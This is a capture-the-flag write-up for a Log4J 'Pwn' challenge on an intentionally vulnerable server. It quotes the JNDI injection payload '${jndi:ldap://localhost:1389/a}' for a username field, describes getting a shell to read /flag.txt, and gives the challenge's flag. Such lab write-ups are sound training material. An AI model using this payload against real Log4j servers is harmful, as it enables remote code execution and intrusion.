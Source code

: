 > # The Logs Are Flawed
> > Pwn - 500pts
>
> The Galactic empire have found a flaw in an old piece of software that they think the rebel alliance is using.  
> This flaw affects the logging application used on one of their secret servers.  
> You and the rest of the empire digital attack force are tasked with using the bug to extract secret information from the server found at (link).
>
> > Hint: Log4J
> 
> ![hacker](https://68.media.tumblr.com/f34726c691d11ac56adcdc21f0f38a4c/tumblr_omsi8eaput1so18vqo1_540.gif)

# Writeup

The server is intentionally vulnerable to the recently discovered log4j bug.  
This can be exploited to enter a shell on the server and print the file /flag.txt inside the docker container.  
The vulnerable server is a slightly modified version of https://github.com/kozmer/log4j-shell-poc.   
Use their proof of concept application to enter '${jndi:ldap://localhost:1389/a}' into the username field and forward to a shell application.  
Use this shell to read the flag.txt file from either / or /usr/local/tomcat.

flag: 
```
UiTHack22{There_Are_Bugs_In_The_LoGs}
```
